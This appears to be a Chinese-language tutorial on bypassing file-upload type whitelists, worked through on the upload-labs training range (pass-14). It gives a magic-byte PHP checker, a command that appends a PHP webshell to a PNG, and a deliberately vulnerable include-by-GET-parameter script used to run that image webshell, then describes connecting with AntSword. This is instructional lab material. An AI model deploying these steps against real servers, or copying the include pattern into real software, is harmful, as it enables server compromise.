




# 一、文件上传白名单绕过概述
1. 文件上传白名单绕过是指攻击者通过伪造、篡改或欺骗上传文件所附带的MIME类型等方式，成功绕过基于文件类型白名单的文件上传安全校验，从而上传并执行恶意代码或文件。
2. 在面对文件上传攻击时，使用文件类型白名单是一种比使用黑名单更优秀的防御措施。因为黑名单容易被攻击者绕过，而白名单则能够根据可信的文件类型建立可靠和安全的校验规则。但是，攻击者仍然可以通过伪造MIME类型等方式来绕过白名单。
# 二、代码示例
1. 使用PHP编写一个示例
```PHP
function getReailFileType($filename){
    $file = fopen($filename, "rb");
    $bin = fread($file, 2); //只读2字节
    fclose($file);
    $strInfo = @unpack("C2chars", $bin);    
    $typeCode = intval($strInfo['chars1'].$strInfo['chars2']);    
    $fileType = '';    
    switch($typeCode){      
        case 255216:            
            $fileType = 'jpg';
            break;
        case 13780:            
            $fileType = 'png';
            break;        
        case 7173:            
            $fileType = 'gif';
            break;
        default:            
            $fileType = 'unknown';
        }    
        return $fileType;
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_type = getReailFileType($temp_file);

    if($file_type == 'unknown'){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
```
2. 当文件上传存在白名单校验时，攻击者仍然可以通过上传专门制作的图片马文件，然后利用文件包含去解析写入到图片马中恶意代码达到攻击的目的。
# 三、upload-labs靶场示例
1. pass-14，先制作一个图片马
```PHP
cat shell.php >> xxx.png
```

2. 利用前面的关卡上传一个文件包含的php文件
```PHP
header("Content-Type: text/html;charset=utf-8");
$file = $_GET['file'];
if(isset($file)){
	include $file;
}else{
	show_source(__FILE__);
}
```

3. 直接上传制作好的图片马文件，如下，没有被拦截，直接上传成功了

4. 尝试使用蚁剑通过include.php包含图片马进行连接，如下，连接成功
